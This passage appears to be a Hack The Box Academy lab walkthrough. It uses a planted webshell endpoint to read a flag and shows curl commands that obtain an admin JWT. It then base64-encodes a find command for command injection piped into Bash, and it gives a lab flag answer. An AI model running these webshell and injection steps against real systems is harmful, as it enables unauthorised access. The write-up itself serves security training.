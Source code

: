 With the webshell code now written into the main `app.js` file, students need to visit `http://STMIP:STMPO/api/cmd?cmd=cat+/flag.txt` to read the flag:

![[HTB Solutions/CWEE/z. images/ba561cb3abeb0d09b7a8d801b77bfb15_MD5.jpg]]

Answer: `HTB{1337_c0d3_!nj3c70r}`

# HTTP Response Injection

## Question 1

### "Using the technique you learned in this section, try to use the 'find' command to find the flag within the backend server."

Students need to begin by using `curl` to send a POST request to `/api/auth/authenticate` on the remote web application, with a JSON body containing `email` data. Additionally, the `email` data must contain an `@hackthebox.com` email address, resulting in a JWT with the admin role:

Code: shell

```shell
curl -s -X POST -H "Content-Type: application/json" -d '{"email": "test@hackthebox.com"}' http://STMIP:STMPO/api/auth/authenticate
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-ta2msxvsf9]─[~]
└──╼ [★]$ curl -s -X POST -H "Content-Type: application/json" -d '{"email": "test@hackthebox.com"}' http://94.237.63.238:55661/api/auth/authenticate

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwMTk4NTUsImV4cCI6MTcwMTEwNjI1NX0.P5EwsGE1obIPLHKjIH5U2kMV4R7Sa2I3w4QmWVpoEHQ"}
```

Next, students need to perform two separate command injections via the `/api/service/generate` endpoint. For the first command injection, students need to send a base64 encoded `find` command that locates the flag.txt file. Therefore, students need to begin by generating the base64 encoded command:

Code: shell

```shell
echo 'find / -name flag.txt 2>/dev/null' | base64 -w0
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-pm3kgo9g8u]─[~]
└──╼ [★]$ echo 'find / -name flag.txt 2>/dev/null' | base64 -w0

ZmluZCAvIC1uYW1lIGZsYWcudHh0IDI+L2Rldi9udWxsCg==
```

Now, students need to utilize the command injection vulnerability to make the server decode the command while piping into Bash:
